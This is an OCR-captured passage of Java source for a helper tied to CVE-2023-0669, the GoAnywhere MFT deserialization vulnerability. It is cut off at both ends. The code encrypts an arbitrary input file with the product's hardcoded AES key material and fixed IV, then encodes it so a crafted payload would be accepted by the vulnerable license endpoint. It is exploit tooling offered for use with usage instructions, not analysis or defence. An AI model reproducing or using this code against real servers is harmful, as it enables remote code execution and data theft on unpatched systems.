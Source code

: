 import javax.crypto.spec.SecretKeySpec;

import java.nio.file.Files;

import java.nio.file.Paths;

public class CVE\_2023\_0669\_helper {

`    `static String ALGORITHM = "AES/CBC/PKCS5Padding";

`    `static byte[] KEY = new byte[30];

`    `static byte[] IV = "AES/CBC/PKCS5Pad".getBytes(StandardCharsets.UTF\_8);

`    `public static void main(String[] args) throws Exception {

`        `if (args.length != 2) {

`            `System.out.println("Usage: java CVE\_2023\_0669\_helper <file\_path> <version>");

`            `System.exit(1);

`        `}

`        `String filePath = args[0];

`        `String version = args[1];

`        `byte[] fileContent = Files.readAllBytes(Paths.get(filePath));

`        `String encryptedContent = encrypt(fileContent, version);

`        `System.out.println(encryptedContent);

`    `}

`    `public static String encrypt(byte[] data, String version) throws Exception {

`        `Cipher cipher = Cipher.getInstance(ALGORITHM);

`        `KEY = (version.equals("2")) ? getInitializationValueV2() : getInitializationValue();

`        `SecretKeySpec keySpec = new SecretKeySpec(KEY, "AES");

`        `IvParameterSpec ivSpec = new IvParameterSpec(IV);

`        `cipher.init(Cipher.ENCRYPT\_MODE, keySpec, ivSpec);

`        `byte[] encryptedObject = cipher.doFinal(data);

`        `String bundle = Base64.getUrlEncoder().encodeToString(encryptedObject);

`        `String v = (version.equals("2")) ? "$2" : "";

`        `bundle += v;

`        `return bundle;

`    `}

`    `private static byte[] getInitializationValue() throws Exception {

`        `// Version 1 Encryption

`        `String param1 = "go@nywhereLicenseP@$$wrd";
